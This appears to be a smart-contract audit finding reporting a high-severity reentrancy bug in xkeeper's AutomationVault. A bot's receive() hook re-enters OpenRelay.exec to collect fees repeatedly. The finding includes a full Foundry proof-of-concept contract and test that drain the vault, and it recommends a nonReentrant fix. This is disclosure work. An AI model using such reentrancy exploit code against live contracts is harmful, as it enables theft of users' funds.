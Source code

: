 Joyful Spruce Eel

high

# The malicious bot drain AutomationVault balance with reentrancy attack

## Summary
`OpenRelay` typically reimburses the executor in ETH for the gas costs, along with an additional incentive. However, there is a scenario where a malicious bot managing the execution could drain the entire `AutomationVault` balance of ETH using a reentrancy attack.

## Vulnerability Detail
The issue arises from the bot being able to execute the same job multiple times in a single transaction, resulting in draining the entire `AutomationVault` balance:
```solidity
contract AutomationVault.exec

(_success,) = _feeInfo.feeRecipient.call{value: _feeInfo.fee}('');
```


Below is a POC with `OpenRelay`, but the issue extends to other relays as well.
Copy and paste this file into the `solidity/test/integration` folder and run it.
`forge test --match-path solidity/test/integration/OpenRelayReentrancy.t.sol -vvvv`

When creating an `AutomationVault`, the user specifies the owner of the Vault and, most importantly, the `NATIVE_TOKEN` in `AutomationVaultFactory`:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

import {CommonIntegrationTest} from "../integration/Common.t.sol";

import {IAutomationVault} from "../../interfaces/core/IAutomationVault.sol";

import "forge-std/console2.sol";

interface IOpenRelay {
    function exec(
        IAutomationVault _automationVault,
        IAutomationVault.ExecData[] calldata _execData,
        address _feeRecipient
    ) external;
}

contract Reentrancy {
    IAutomationVault public automationVault;
    IAutomationVault.ExecData[] public execData;
    address public relay;
    uint256 public counter = 3;

    function setJob(
        IAutomationVault _automationVault,
        IAutomationVault.ExecData[] memory _execData,
        address _relay
    ) external {
        automationVault = _automationVault;
        for (uint i = 0; i < _execData.length; i++) {
            execData.push(_execData[i]);
        }
        relay = _relay;
    }

    function start() external {
        IOpenRelay(relay).exec(automationVault, execData, address(this));
    }

    receive() external payable {
        if (counter != 0) {
            counter--;
            IOpenRelay(relay).exec(automationVault, execData, address(this));
        }
    }
}

contract OpenRelayReentrancy is CommonIntegrationTest {
    Reentrancy reentracy;

    function setUp() public override {
        // AutomationVault setup
        CommonIntegrationTest.setUp();

        // Bot callers array
        address[] memory _bots = new address[](1);
        _bots[0] = 0xFFfFfFffFFfffFFfFFfFFFFFffFFFffffFfFFFfF;

        // Job selectors array
        bytes4[] memory _jobSelectors = new bytes4[](2);
        _jobSelectors[0] = basicJob.work.selector;
        _jobSelectors[1] = basicJob.workHard.selector;

        // Job data array
        IAutomationVault.JobData[]
            memory _jobsData = new IAutomationVault.JobData[](1);
        _jobsData[0] = IAutomationVault.JobData(
            address(basicJob),
            _jobSelectors
        );

        startHoax(owner);

        // AutomationVault approve relay data
        automationVault.addRelay(address(openRelay), _bots, _jobsData);
        address(automationVault).call{value: 100 ether}("");

        reentracy = new Reentrancy();
        changePrank(bot);
    }

    function test_executeBondAndGetPaymentWithReentrancy(
        uint16 _howHard
    ) public {
        vm.assume(_howHard <= 100);

        assertEq(bot.balance, 0);

        IAutomationVault.ExecData[]
            memory _execData = new IAutomationVault.ExecData[](1);
        _execData[0] = IAutomationVault.ExecData(
            address(basicJob),
            abi.encodeWithSelector(basicJob.workHard.selector, _howHard)
        );

        reentracy.setJob(automationVault, _execData, address(openRelay));

        openRelay.exec(automationVault, _execData, address(reentracy));
        console2.log("balance", address(reentracy).balance);
    }
}


```

## Impact
The malicious bot drain `AutomationVault` balance with reentrancy attack

## Code Snippet
[core/AutomationVault.sol#L439](https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/core/AutomationVault.sol#L439)

## Tool used

Manual Review

## Recommendation
Consider adding a `nonReentrant` modifier to the `exec` function in `AutomationVault` smart contract:
```diff
- function exec(address _relayCaller, ExecData[] calldata _execData, FeeData[] calldata _feeData) external {
+ function exec(address _relayCaller, ExecData[] calldata _execData, FeeData[] calldata _feeData) external  nonReentrant{
```
